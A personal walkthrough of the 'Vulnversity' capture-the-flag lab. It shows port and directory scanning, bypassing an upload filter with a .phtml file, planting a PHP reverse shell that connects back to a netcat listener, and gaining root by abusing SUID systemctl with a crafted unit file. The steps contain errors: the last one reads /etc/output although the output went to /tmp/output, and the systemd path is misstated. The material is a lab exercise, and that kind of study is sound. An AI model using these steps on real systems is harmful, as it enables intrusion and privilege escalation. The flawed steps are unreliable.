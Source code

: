 ```yaml
---
tags: [Rooms]
title: Vulnversity
created: '2020-05-10T16:09:08.192Z'
modified: '2020-05-15T23:01:01.677Z'
---
```


# Vulnversity

Perform a port scan

```
nmap -sV <IP>
```

Port **3333** cotains an HTTP web application

Scan the web application to find files and folders

```
gobuster -u http://<IP>:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e
```

There is a path to upload files to the web application

```
http://<IP>:3333/internal/
```

Testing for extensions of files allowed to be uploaded with Burp Intruder, we can identify that **.phtml** files are accepted.

Download a PHP reverse shell:
[Pentestmonkey - Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Edit the shell to include your local IP address and port (where netcat will be listening)

```
$ip = '127.0.0.1';
$port = 1234;
```

Upload the shell to the web application and use netcat to listen to the port specified in the shell

```
nc -lvp <port>
```

Access the path where the shell was uploaded on the web application to execute the PHP code in the reverse shell

```
http://<IP>:3333/internal/uploads/<path-to-shell>
```

User flag is found at /home/bill/user.txt

Search for files with the SUID bit enabled starting on / and redirect the errors to /dev/null

```
find / -perm /4000 2>/dev/null
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

The **/bin/systemctl** executable has the SUID bit set

We can abuse it to elevate privileges.

[GTFOBins - Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system’s lifecycle. These tasks are known as units, and each unit has a corresponding unit file. We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd. But we don’t have the permission to write to that folder. Instead, we can use an environment variable that will read the contents of **/root/root.txt** and write its output to **/tmp/output** file.

First we create a variable which holds a unique file.

```
eop=$(mktemp).service
```

Then we create an unit file and write it into the variable.

```
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop
```

Inside the unit file we entered a command which will let shell execute the command cat and redirect the output of cat to a file called output in the folder tmp. And finally we use the /bin/systemctl program to enable the unit file.

```
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

Finally we read the contents of the file **/etc/output**

